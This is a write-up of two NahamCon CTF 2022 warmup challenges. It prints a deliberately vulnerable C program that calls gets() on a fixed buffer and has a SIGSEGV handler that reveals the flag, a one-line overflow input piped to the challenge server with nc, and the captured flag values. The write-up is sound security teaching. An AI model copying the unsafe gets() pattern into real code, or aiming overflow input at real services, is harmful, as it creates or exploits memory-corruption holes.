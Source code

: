 ```yaml
---
title: NahamCon CTF 2022 - Warmup Writeup Part 2
published: true
---
```


Part 2 of the warmup challenges for NahamCon CTF 2022.  Part 1 is [here](https://ruddles.github.io/NahamCon-CTF-2022-Warmup-1)

# Crash Override

> Remember, hacking is more than just a crime. It's a survival trait.
> 
> Attachments: crash_override.c, Makefile, crash_override
> 
> Connect to `nc challenge.nahamcon.com 30637`

To start off we can download the 3 files using wget

```
wget -o crash_override.c https://ctf.nahamcon.com/files/f9dc325add89e0bd3302d94d0f370dca/crash_override.c?token=<my-token>
wget -o Makefile https://ctf.nahamcon.com/files/f9dc325add89e0bd3302d94d0f370dca/Makefile?token=<my-token>
wget -o crash_override https://ctf.nahamcon.com/files/f9dc325add89e0bd3302d94d0f370dca/crash_override?token=<my-token>
```

Opening up the C file reveals the following code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <signal.h>

void win(int sig) {
    FILE *fp = NULL;
    char *flag = NULL;
    struct stat sbuf;

    if ((fp = fopen("flag.txt", "r")) == NULL) {
        puts("Failed to open the flag. If this is on the challenge server, contact an admin.");
        exit(EXIT_FAILURE);
    }

    if (fstat(fileno(fp), &sbuf)) {
        puts("Failed to get flag.txt file status. If this is on the challenge server, contact an admin.");
        exit(EXIT_FAILURE);
    }

    flag = calloc(sbuf.st_size + 1, sizeof(char));
    if (!flag) {
        puts("Failed to allocate memory.");
        exit(EXIT_FAILURE);
    }

    fread(flag, sizeof(char), sbuf.st_size, fp);
    puts(flag);

    free(flag);

    exit(EXIT_SUCCESS);
}

int main(void) {
    char buffer[2048];

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    signal(SIGSEGV, win);

    puts("HACK THE PLANET!!!!!!");
    gets(buffer);

    return 0;
}
```

Reading the code, the line `signal(SIGSEGV, win);` means if we can cause a segmentation fault (i.e. cause the application to access memory it isn't allowed to) then the `win` function will run and print out the flag.

The easiest way to cause a seg fault is to cause a buffer overflow, which is where we attempt to stuff more data into a memory location than the application is expecting.

Do you see it?  Look at the first and second-to-last lines in main.  `char buffer[2048];` is setting up a buffer with 2048 bytes of space.  Then `gets(buffer);` will take whatever is in stdin and stuff it into the buffer.  So what happens if stdin contains more than 2048 bytes of data?  Boom.  That's what.  Never use gets.  Hell, even the [bugs section on the man page says don't use it](https://linux.die.net/man/3/gets).

To blow this popsicle stand and get the flag we just need to connect to the server and give it a big load of data on stdin.  We're not going to type all those chars, this is an expensive keyboard, we'll use python for that.  Let's give it 3000 "A" chars for good measure.

```
python3 -c 'print("A" * 3000)' | nc challenge.nahamcon.com 30637
```

Running that and boom, the flag is dumped. `flag{de8b6655b538a0bf567b79a14f2669f6}`

# Read The Rules

> Please follow the rules for this CTF!

How was this not the most solved?  Anyway, I digress.  Go to the rules page at https://ctf.nahamcon.com/rules, view source and Ctrl-f for "flag{" and would you look at that...

![screenshot of the source]({{ site.url }}/assets/post-images/nahamcon-warmup/read-the-rules-source.png)